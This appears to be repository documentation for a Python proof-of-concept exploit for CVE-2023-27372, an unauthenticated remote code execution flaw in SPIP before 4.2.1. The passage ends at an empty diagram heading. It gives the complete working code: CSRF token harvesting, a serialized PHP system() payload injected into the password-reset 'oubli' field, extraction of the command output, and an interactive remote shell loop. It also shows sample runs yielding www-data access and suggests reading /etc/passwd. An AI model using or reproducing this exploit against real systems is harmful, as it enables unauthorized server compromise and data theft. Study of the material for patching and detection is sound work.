

## Dependencies

The exploit requires the following Python libraries:

```python
import re              # Regular expressions for output extraction
import sys             # System operations and exit codes
import requests        # HTTP client for web requests
import argparse        # Command-line argument parsing
from bs4 import BeautifulSoup                    # HTML parsing
from prompt_toolkit import PromptSession, HTML   # Interactive shell UI
from prompt_toolkit.history import InMemoryHistory
from prompt_toolkit.auto_suggest import AutoSuggestFromHistory
```

**Installation:**
```bash
python3 -m pip install requests beautifulsoup4 prompt_toolkit
```

---

## Core Functions

### get_csrf_token()

Fetches the anti-CSRF token from SPIP's password reset form.

<ParamField path="url" type="string" required>
  Base URL of the target SPIP installation (e.g., `http://10.10.10.10/spip`)
</ParamField>

**Returns:** `str | None`
- The CSRF token value if found
- `None` if the token cannot be retrieved

**Implementation:**

```python
def get_csrf_token(url):
    """Fetch the anti-CSRF token from the password reset form."""
    try:
        r = requests.get(f"{url}/spip.php?page=spip_pass", timeout=10)
        soup = BeautifulSoup(r.text, "html.parser")
        csrf_input = soup.find("input", {"name": "formulaire_action_args"})
        if csrf_input:
            return csrf_input["value"]
        print("[-] Anti-CSRF token not found")
    except Exception as e:
        print(f"[-] Error fetching CSRF token: {e}")
    return None
```

**Behavior:**
- Makes a GET request to `/spip.php?page=spip_pass`
- Parses the HTML response with BeautifulSoup
- Locates the `<input name="formulaire_action_args">` field
- Extracts and returns the `value` attribute
- Handles connection errors and missing tokens gracefully

<Note>
The 10-second timeout prevents the exploit from hanging on unresponsive targets.
</Note>

---

### run_command()

Executes a system command on the target via PHP object injection.

<ParamField path="url" type="string" required>
  Base URL of the target SPIP installation
</ParamField>

<ParamField path="csrf_token" type="string" required>
  Valid CSRF token obtained from `get_csrf_token()`
</ParamField>

<ParamField path="command" type="string" required>
  System command to execute (e.g., `"whoami"`, `"cat /etc/passwd"`)
</ParamField>

**Returns:** `str`
- Command output if execution succeeds
- `"(no output)"` if the response cannot be parsed
- Error message if the request fails

**Implementation:**

```python
def run_command(url, csrf_token, command):
    """
    Inject a serialized PHP payload into the oubli parameter.
    SPIP reflects the executed output back inside the oubli input field value:
      value="s:<n>:"<command output>";"
    BeautifulSoup breaks on the inner quotes, so we extract with regex on raw text.
    """
    payload = f's:{20 + len(command)}:"<?php system(\'{command}\'); ?>";'
    try:
        r = requests.post(
            f"{url}/spip.php?page=spip_pass",
            data={
                "page": "spip_pass",
                "formulaire_action": "oubli",
                "formulaire_action_args": csrf_token,
                "oubli": payload,
            },
            timeout=10,
        )
        match = re.search(r'value="s:\d+:"(.*?)";"\s', r.text, re.DOTALL)
        if match:
            return match.group(1).strip()
        return "(no output)"
    except Exception as e:
        return f"[-] Request failed: {e}"
```

**Payload Construction:**

The payload follows PHP's serialization format:
```
s:{LENGTH}:"{CONTENT}";
```

For a command like `id`, the payload becomes:
```php
s:22:"<?php system('id'); ?>";
```

Where `22` is calculated as `20 + len("id")` (20 characters for PHP tags and system call syntax).

**Output Extraction:**

The regex pattern `r'value="s:\d+:"(.*?)";"\s'` matches the reflected serialized output in the HTML response:

```html
<input name="oubli" value="s:32:"uid=33(www-data) groups=33";" />
```

Capture group `(.*?)` extracts the command output between the quotes.

<Warning>
The payload uses single quotes inside `system()` to avoid shell injection issues. Ensure commands don't contain unescaped single quotes.
</Warning>

---

### interactive_shell()

Establishes an interactive pseudo-shell with command history and auto-completion.

<ParamField path="url" type="string" required>
  Base URL of the target SPIP installation
</ParamField>

**Returns:** `None` (exits on user command or error)

**Implementation:**

```python
def interactive_shell(url):
    """Fetch CSRF token, confirm RCE, then open an interactive command loop."""
    print("[*] Fetching anti-CSRF token...")
    csrf_token = get_csrf_token(url)
    if not csrf_token:
        print("[-] Could not retrieve CSRF token. Target may not be vulnerable.")
        sys.exit(1)

    print("[*] Testing command execution...")
    output = run_command(url, csrf_token, "id")
    if not output or "uid=" not in output:
        print("[-] No command output received. Target may not be vulnerable.")
        sys.exit(1)

    print(f"[+] Target is vulnerable! Output: {output}")
    print("[+] Shell opened. Type 'exit' or Ctrl+C to quit.\n")

    session = PromptSession(history=InMemoryHistory())

    while True:
        try:
            command = session.prompt(
                HTML("<ansired><b>Shell> </b></ansired>"),
                auto_suggest=AutoSuggestFromHistory(),
            )
            command = command.strip()
            if not command:
                continue
            if command.lower() == "exit":
                return
            # Refresh CSRF token each request — SPIP regenerates it
            csrf_token = get_csrf_token(url)
            if not csrf_token:
                print("[-] Lost CSRF token, retrying...")
                continue
            print(run_command(url, csrf_token, command))
        except KeyboardInterrupt:
            print("\nBye!")
            return
```

**Workflow:**

<Steps>
  <Step title="Initialization">
    - Fetches initial CSRF token
    - Validates target vulnerability by running `id` command
    - Confirms output contains `uid=` (typical Unix user ID format)
    - Exits with error code 1 if validation fails
  </Step>

  <Step title="Shell Loop">
    - Creates a `PromptSession` with in-memory command history
    - Displays a red-colored `Shell>` prompt using `prompt_toolkit`
    - Auto-suggests commands from history as user types
    - Ignores empty input
    - Exits cleanly on `exit` command or Ctrl+C
  </Step>

  <Step title="Token Refresh">
    - Fetches a fresh CSRF token before **every** command
    - SPIP regenerates tokens after each request
    - Retries if token retrieval fails
  </Step>

  <Step title="Command Execution">
    - Passes user command to `run_command()`
    - Prints output directly to terminal
    - Loops back to prompt
  </Step>
</Steps>

<Note>
**Why refresh tokens?** SPIP's CSRF protection regenerates the `formulaire_action_args` token after each form submission. Reusing a stale token will cause requests to fail.
</Note>

---

### main()

CLI entry point that parses arguments and launches the interactive shell.

**Implementation:**

```python
def main():
    parser = argparse.ArgumentParser(
        description="PoC exploit for CVE-2023-27372 - SPIP < 4.2.1 Unauthenticated RCE"
    )
    parser.add_argument("-u", "--url", required=True, help="Target URL (e.g. http://10.10.10.10/spip)")
    args = parser.parse_args()
    interactive_shell(args.url.rstrip("/"))


if __name__ == "__main__":
    main()
```

**Command-Line Interface:**

```bash
python3 CVE-2023-27372.py -u http://TARGET/spip
```

<ParamField path="-u, --url" type="string" required>
  Target SPIP installation URL. Trailing slashes are automatically stripped.
</ParamField>

**Example Usage:**

```bash
$ python3 CVE-2023-27372.py -u http://10.10.10.10/spip
[*] Fetching anti-CSRF token...
[*] Testing command execution...
[+] Target is vulnerable! Output: uid=33(www-data) gid=33(www-data) groups=33(www-data)
[+] Shell opened. Type 'exit' or Ctrl+C to quit.

Shell> whoami
www-data
Shell> pwd
/var/www/spip
Shell> exit
```

---

## Error Handling

The exploit implements defensive error handling at multiple levels:

<Accordion title="Connection Errors">
  All HTTP requests use a 10-second timeout to prevent indefinite hangs. Network exceptions are caught and logged:
  
  ```python
  except Exception as e:
      print(f"[-] Error fetching CSRF token: {e}")
  ```
</Accordion>

<Accordion title="Missing Tokens">
  If the CSRF token cannot be found in the HTML response:
  
  ```python
  if not csrf_token:
      print("[-] Could not retrieve CSRF token. Target may not be vulnerable.")
      sys.exit(1)
  ```
</Accordion>

<Accordion title="Vulnerability Validation">
  The `id` command output is checked for the `uid=` pattern:
  
  ```python
  if not output or "uid=" not in output:
      print("[-] No command output received. Target may not be vulnerable.")
      sys.exit(1)
  ```
</Accordion>

<Accordion title="Keyboard Interrupts">
  Graceful shutdown on Ctrl+C:
  
  ```python
  except KeyboardInterrupt:
      print("\nBye!")
      return
  ```
</Accordion>

---

## Configuration

### SSL Warnings Suppression

The exploit disables urllib3 SSL warnings to allow testing against self-signed certificates:

```python
requests.packages.urllib3.disable_warnings()
```

<Warning>
This makes the exploit permissive for testing environments. In production security assessments, verify SSL certificates are properly validated.
</Warning>

### Prompt Styling

The shell prompt uses `prompt_toolkit`'s HTML-like syntax for terminal coloring:

```python
HTML("<ansired><b>Shell> </b></ansired>")
```

Renders as: <span style="color: red; font-weight: bold;">Shell></span>

---

## Code Flow Diagram

